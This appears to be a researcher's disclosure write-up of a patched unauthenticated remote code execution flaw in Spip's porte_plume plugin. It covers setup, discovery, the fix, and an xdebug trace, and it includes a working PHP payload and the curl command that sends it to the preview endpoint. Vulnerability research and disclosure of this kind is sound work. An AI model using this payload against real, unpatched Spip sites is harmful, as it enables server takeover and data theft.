









Hi dear Sir, Madam. Please be informed that this is the **third** article dedicated to [Spip](https://www.spip.net/) 0-day research, if you haven't read the first ones, I'd recommend reading them first!

- [RCE on Spip and Root-Me](/hacking/rce_on_spip_and_root_me/)
- [RCE on Spip and Root-Me, v2!](/hacking/rce_on_spip_and_root_me_v2/)

This article will cover the `issue and exploit` for an `Unauthenticated Remote Code Execution` found on `Spip`, it has been patched in the releases for [4-3-0-alpha2, 4-2-13, and 4.1.16](https://blog.spip.net/Mise-a-jour-critique-de-securite-sortie-de-SPIP-4-3-0-alpha2-SPIP-4-2-13-SPIP-4.html).



## What's the setup again?

This issue was tested on the latest back then: [4.2.9](https://files.spip.net/spip/archives/spip-v4.2.9.zip) Released the 8th of February 2024, it's SHA1 hash is [1987a75d18a57690e288be59e1c4a114cac51d84](https://spip.lerebooteux.fr/Release-Notes-25).

Oh yeah, the issue came form the [porte_plume plugin](https://plugins.spip.net/porte_plume.html), so if you update spip without updating the plugins as well, you might still be exposed! 👏

```bash
mise install php@8.1.0       # Recent install, should work on latest as well
pecl install -f libsodium    # Dependencies for Spip crypto stuff
echo extension=sodium.so | tee -a $(php --ini | grep -ioP "/.*/php.ini") # Add sodium.so to our php.ini config file
php -S 0.0.0.0:8000          # Simple webserver
http://0.0.0.0:8000/ecrire/  # The url to visit in order to setup the site
```

From there, pick a `sqlite` backend to keep the setup minimalist, create an admin account, and voilà, you're done! It's empty as hell, yet enough to be exploited!



## How was it caught?

Two years ago, I built and deployed a simpe cron task that would pull spip core and plugins changes daily at 9pm, split the diffs in small chunks of lines, render them, and push it to one of my private discord servers. It yield a few cute results, but nothing too scary for a few months. I was already reading as much code as I could in the actuel project, but in the meantime, having these new changes was helpful to know what were the current moving parts!

And one day, [this gem](https://git.spip.net/spip/porte_plume/-/commit/3ca4cf78b96d927121c767a720203845071b7fda) came up!



For interested readers, a [dirty push-my-diffs PoC](https://github.com/laluka/push-my-diffs) has been released and shown during a [livestream](https://www.youtube.com/watch?v=iFEDYryTKQw)! 😇



Now, let's head-out to the code part!

If you're a French reader, you'll quick notice THE line. 

> If there is php that comes from a model in here, it must be eval'd as it's not a regular page.\
> - Someone, probably a monday morning

And the code does just that. If a flag states that modeles must be protected, then some sanitization takes place, then the page's content ends up in an eval statement!

As I've been playing with Spip for a while now, I knew this piece of code lived in the `porte_plume` plugin, and was reachable without account!

So... Can we do it? Can we reach the mighty eval statement?


## Chaining "features" to reach eval

One bug already known by quite a few researchers is the ability to abuse the previsualization feature to resolve document or images IDs to full document links. This is an IDOR in itself, has been reported, but was -afaik- deemed too painful to patch, or not prioritized.

Let's upload one image on our backend, and see how the link resolution feature behaves.



```bash
curl -sSkiL 'http://0.0.0.0:8000/index.php?action=porte_plume_previsu' -X POST -d 'data=AA<doc1>BB'
```

As stated, this allows us to resolve every document and images IDs to links. Currently, files do not benefit from other protections, and are exposed for direct access for images and document uploads, we can basically abuse this feature to dump the whole site content. Banger.

But wait, there's more!

The code received on discord states that if some php code lends in there, it will be eval'd, so can we get our code in there?



Yes, no, maybe, it's complicated... For now, the sanitization part catches us and surrounds our attempt with warnings. And breaks our payload. But the Spip templating engine is fairly complex and it's definitely 100% spaghetti!

> No blame on the devs, it's php, and will always be.

By grepping around, we can determine that links are handled in a specific way to be resolved, while reading the function's code, one can find that url slugs can be used, text formats, and more.



More can be found on the slug system with extra greps and code reading:

```bash
grep -riP '>->'
# ecrire/public/assembler.php:    // Si un lien a ete passe en parametre, ex: [<modele1>->url] ou [<modele1|title_du_lien{hreflang}->url]
# plugins-dist/textwheel/inc/lien.php:    # Penser au cas [<imgXX|right>->URL], qui exige typo('<a>...</a>')
# plugins-dist/textwheel/tests/data/typo/inline_link.txt:[<code>link avec de la typo !</code>->http://example.com]
# plugins-dist/textwheel/tests/data/typo/inline_link_title.txt:[link|title with <b>bold avec de la typo!</b>->http://example.com] and [another link|title with <b>bold avec de la typo!</b>->/tests/]
# plugins-dist/textwheel/tests/data/modeles_inline/inline_link.txt:[link <textwheel1|inline>->http://example.com] and [another link <textwheel1|inline>->/tests/]
# plugins-dist/textwheel/tests/data/modeles_inline/inline_link.txt:[<code>link <textwheel1|inline></code>->http://example.com]
# plugins-dist/textwheel/tests/data/modeles_inline/inline_link.txt:[<textwheel1|inline>->http://example.com]
# plugins-dist/textwheel/tests/data/modeles_inline/inline_link.txt:[<textwheel1|inline> and text <textwheel1|inline>->http://example.com]
# plugins-dist/textwheel/tests/data/modeles_inline/inline_link_title.txt:[link|title <textwheel1|inline>->http://example.com] and [another link|title <textwheel1|inline>->/tests/]
# plugins-dist/textwheel/tests/data/modeles_inline/inline_link_title.txt:[link|title with <b>bold <textwheel1|inline></b>->http://example.com] and [another link|title with <b>bold <textwheel1|inline></b>->/tests/]
# plugins-dist/textwheel/tests/data/base/inline_link.txt:[<code>link</code>->http://example.com]
# plugins-dist/textwheel/tests/data/base/inline_link_title.txt:[link|title with <b>bold</b>->http://example.com] and [another link|title with <b>bold</b>->/tests/]
# plugins-dist/textwheel/tests/data/modeles_block/inline_link.txt:[link <textwheel1|block>->http://example.com] and [another link <textwheel1|block>->/tests/]
# plugins-dist/textwheel/tests/data/modeles_block/inline_link.txt:[<code>link <textwheel1|block></code>->http://example.com]
# plugins-dist/textwheel/tests/data/modeles_block/inline_link.txt:[<textwheel1|block>->http://example.com]
# plugins-dist/textwheel/tests/data/modeles_block/inline_link.txt:[<textwheel1|block> and text <textwheel1|block>->http://example.com]
# plugins-dist/textwheel/tests/data/modeles_block/inline_link_title.txt:[link|title <textwheel1|block>->http://example.com] and [another link|title <textwheel1|block>->/tests/]
```

The previsualisation system is the same (or very similar) for post and comments. One easy way to get intimate with it is to play on the article redaction page.



In here, we have the document uploader, possibility to insert documents by id, links, slugs, bold, italics, quoted, striked, code blocks, and more.

Turns out reflecting URLs with complex formatting might be broken when the right suite of filters is applyed! By writing a dead-simple fuzzer to submit all kind of urls and formats, and logging the content passed to the previously mentioned eval statement, things got lit!

I won't give every working payload here, but let's analyze one

```php
[<img111111>->URL`<?php system("id");?>`]
```

This is a:

- `[foo->bar]`            # Link seen as foo, pointing on bar
- `<img111111>`           # Resolve request to a non-existing image of id 111111
- `` `text` ``            # Bold text
- `<?php system("id");?>` # Php payload that executes the id command

So we have a link, made from a non-existing document, for which the slug contains a **bold** php payload!

## What's the sploit?



```bash
curl -sSkiL 'http://0.0.0.0:8000/index.php?action=porte_plume_previsu' -X POST -d 'data=AA_[<img111111>->URL`<?php system("id");?>`]_BB'
```

We're therefore abusing the unauth previsualization feature to reflect our terrific bb-text-like url that will keep the payload untouched due to the path formating takes!

## What's the patch?

This lead to two patchs, one in the core, and one in the porte_plume plugin!

- In the Core:
    - Urls got their own filtering function for templating
    - https://git.spip.net/spip/spip/-/merge_requests/5973/diffs
- In the Porte Plume plugin:
    - Access Control has been added for model previsualisation from an unauth context
    - https://git.spip.net/spip/porte_plume/-/commit/97f9d6dddcadc9a01b098ec3552e204ce1c7a2ab

> Side note here, I've had past disclosure that went... Not so well.
> This one was smooth, Spip Dev Team member were helpful and quick to react! 🌹

## BONUS: What's truly happening? Tracing with X-debug!

```bash
pecl install xdebug
mkdir /tmp/traces/
cat >> $(php --ini | grep -ioP "/.*/php.ini") << EOF
zend_extension=xdebug.so
xdebug.mode = trace
xdebug.start_with_request = yes
xdebug.trace_format = 1  ; Use the computer-readable format
xdebug.output_dir = "/tmp/traces"
EOF
# Restart the php simple server
php -S 0.0.0.0:8000
# Then trigger the exploit
curl -sSkiL 'http://0.0.0.0:8000/index.php?action=porte_plume_previsu' -X POST -d 'data=AA<doc1>BB'
# Then inspect the trace
gunzip /tmp/traces/trace.2713103059.xt.gz
bat /tmp/traces/trace.2713103059.xt
```



The full trace can be found here: [https://gist.github.com/laluka/609822f84ba07716c807be112b69e83a](https://gist.github.com/laluka/609822f84ba07716c807be112b69e83a)

By snipping ✀ some parts, or just grepping on our payload, we'll be able to find the exact culprits!

```php
[...] Framework initialization, autoload, boilerplate, ...
5	43	0	0.010484	569784	serialize	0		/opt/spip-rampage-2024/sources/config/ecran_securite.php	412	1	['action' => 'porte_plume_previsu', 'data' => 'AA_[<img111111>->URL`<?php system("id");?>`]_BB']
[...] Assempling many assets
22	3094	0	0.147165	7099656	function_exists	0		/opt/spip-rampage-2024/sources/ecrire/public/assembler.php	559	1	'medias_modeles_styliser'
[...] Tons of SQL & data loading
14	5393	0	0.201983	7799240	pipeline	1		/opt/spip-rampage-2024/sources/plugins-dist/textwheel/inc/texte.php	914	2	'post_echappe_html_propre'	'<p>AA_<a href="URL<code class="spip_code spip_code_inline" dir="ltr"><span class="base64php29041280866b34eef8d1b72.80300957" title="PD9waHAgc3lzdGVtKCJpZCIpOz8+"></span></code>" class=""></a>_BB</p>'
15	5394	0	0.202012	7799240	strtolower	0		/opt/spip-rampage-2024/sources/ecrire/inc/utils.php	301	1	'post_echappe_html_propre'
15	5395	0	0.202030	7799320	function_exists	0		/opt/spip-rampage-2024/sources/ecrire/inc/utils.php	302	1	'execute_pipeline_post_echappe_html_propre'
15	5396	0	0.202047	7799352	execute_pipeline_post_echappe_html_propre	1		/opt/spip-rampage-2024/sources/ecrire/inc/utils.php	303	1	'<p>AA_<a href="URL<code class="spip_code spip_code_inline" dir="ltr"><span class="base64php29041280866b34eef8d1b72.80300957" title="PD9waHAgc3lzdGVtKCJpZCIpOz8+"></span></code>" class=""></a>_BB</p>'
14	5397	0	0.202078	7799992	pipeline	1		/opt/spip-rampage-2024/sources/plugins-dist/textwheel/inc/texte.php	922	2	'post_echappe_html_propre_args'	['args' => ['args' => [...], 'connect' => NULL, 'env' => [...]], 'data' => '<p>AA_<a href="URL<code class="spip_code spip_code_inline" dir="ltr"><span class="base64php29041280866b34eef8d1b72.80300957" title="PD9waHAgc3lzdGVtKCJpZCIpOz8+"></span></code>" class=""></a>_BB</p>']
[...] Entering the Clean-Up Pipeline
13	5401	0	0.202175	7798928	echappe_retour	1		/opt/spip-rampage-2024/sources/plugins-dist/porte_plume/porte_plume_fonctions.php	867	3	'<p>AA_<a href="URL<code class="spip_code spip_code_inline" dir="ltr"><span class="base64php29041280866b34eef8d1b72.80300957" title="PD9waHAgc3lzdGVtKCJpZCIpOz8+"></span></code>" class=""></a>_BB</p>'	'php29041280866b34eef8d1b72.80300957'	'traitements_previsu_php_modeles_eval'
[...] Below us URL attrs extraction with extraire_attribut
14	5404	0	0.202243	7799088	preg_match_all	0		/opt/spip-rampage-2024/sources/ecrire/inc/texte_mini.php	316	4	',<(span|div)\\sclass=[\'"]base64php29041280866b34eef8d1b72.80300957[\'"]\\s(.*)>\\s*</\\1>,UmsS'	'<p>AA_<a href="URL<code class="spip_code spip_code_inline" dir="ltr"><span class="base64php29041280866b34eef8d1b72.80300957" title="PD9waHAgc3lzdGVtKCJpZCIpOz8+"></span></code>" class=""></a>_BB</p>'	NULL	2
14	5405	0	0.202281	7799936	extraire_attribut	1		/opt/spip-rampage-2024/sources/ecrire/inc/texte_mini.php	321	3	'<span class="base64php29041280866b34eef8d1b72.80300957" title="PD9waHAgc3lzdGVtKCJpZCIpOz8+"></span>'	'title'	???
15	5407	0	0.202320	7800160	preg_match	0		/opt/spip-rampage-2024/sources/ecrire/inc/filtres.php	1951	3	',(^.*?<(?:(?>\\s*)(?>[\\w:.-]+)(?>(?:=(?:"[^"]*"|\'[^\']*\'|[^\'"]\\S*))?))*?)(\\s+title(?:=\\s*("[^"]*"|\'[^\']*\'|[^\'"]\\S*))?)()((?:[\\s/][^>]*)?>.*),isS'	'<span class="base64php29041280866b34eef8d1b72.80300957" title="PD9waHAgc3lzdGVtKCJpZCIpOz8+"></span>'	NULL
15	5408	0	0.202355	7800712	substr	0		/opt/spip-rampage-2024/sources/ecrire/inc/filtres.php	1955	3	'"PD9waHAgc3lzdGVtKCJpZCIpOz8+"'	1	-1
15	5410	0	0.202394	7800712	filtrer_entites	1		/opt/spip-rampage-2024/sources/ecrire/inc/filtres.php	1967	1	'PD9waHAgc3lzdGVtKCJpZCIpOz8+'
14	5412	0	0.202436	7799992	base64_decode	0		/opt/spip-rampage-2024/sources/ecrire/inc/texte_mini.php	321	1	'PD9waHAgc3lzdGVtKCJpZCIpOz8+'
14	5413	0	0.202454	7799992	extraire_attribut	1		/opt/spip-rampage-2024/sources/ecrire/inc/texte_mini.php	325	3	'<span class="base64php29041280866b34eef8d1b72.80300957" title="PD9waHAgc3lzdGVtKCJpZCIpOz8+"></span>'	'lang'	???
14	5415	0	0.202498	7799992	extraire_attribut	1		/opt/spip-rampage-2024/sources/ecrire/inc/texte_mini.php	325	3	'<span class="base64php29041280866b34eef8d1b72.80300957" title="PD9waHAgc3lzdGVtKCJpZCIpOz8+"></span>'	'dir'	???
14	5417	0	0.202540	7799992	traitements_previsu_php_modeles_eval	1		/opt/spip-rampage-2024/sources/ecrire/inc/texte_mini.php	336	1	'<?php system("id");?>'
15	5418	0	0.202554	7799992	ob_start	0		/opt/spip-rampage-2024/sources/plugins-dist/porte_plume/porte_plume_fonctions.php	884	0
15	5419	0	0.202588	7817368	eval	1	'?><?php system("id");?>'	/opt/spip-rampage-2024/sources/plugins-dist/porte_plume/porte_plume_fonctions.php	886	0
16	5420	0	0.202603	7817368	system	0		/opt/spip-rampage-2024/sources/plugins-dist/porte_plume/porte_plume_fonctions.php(886) : eval()'d code	1	1	'id'
```

## BONUS: Unauth RCE on Spip... So you broke root-me again?

Well, hum... 👉👈 No. 😭

The issue has been introduced a year ago, and `Root-Me is working on a rework`! 🥳\
Therefore they did not spend time updating their Spip instance for over a year...

So, this time, a lack of update definitely helped for security!\
Feels like [php-8.1.0-dev backdoor](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/), right? 🙃

But next article will cover `Yet Another Unauth RCE` that this time worked on [Root-Me.org](https://www.root-me.org/), so I hope you enjoyed this one, and will kindly wait for the next one! 💌

> Have a nice Summer everyone! 🌻
